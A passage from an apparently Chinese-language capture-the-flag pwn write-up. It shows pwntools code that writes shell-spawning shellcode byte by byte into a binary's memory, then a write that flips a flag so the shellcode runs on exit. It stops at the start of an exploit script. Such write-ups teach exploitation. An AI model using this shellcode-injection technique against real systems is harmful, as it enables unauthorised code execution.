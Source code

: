 [![](assets/1706254573-e7336453ca8156f3ae78e19aa0692429.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151439-67188710-bb51-1.png)  
修改后：

[![](assets/1706254573-28923bb02e50feb14eac681065b0d3ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151448-6cea491c-bb51-1.png)  
然后一位一位写 shellcode

```plain
shellcode = asm(shellcraft.sh()) 
for i in range(len(shellcode)): 
    write_value(hex(0x600c60+i), hex(shellcode[i]))
```

然后在 0x600c60 处逐字节写入 shellcode

[![](assets/1706254573-b984996381064d0f8255167e651749cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151505-76fe0100-bb51-1.png)  
再去修改 flag 为正，然后退出程序就可以执行 shellcode 了

```plain
write_value(b"0x600bcf", b"0xff")
```

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
```
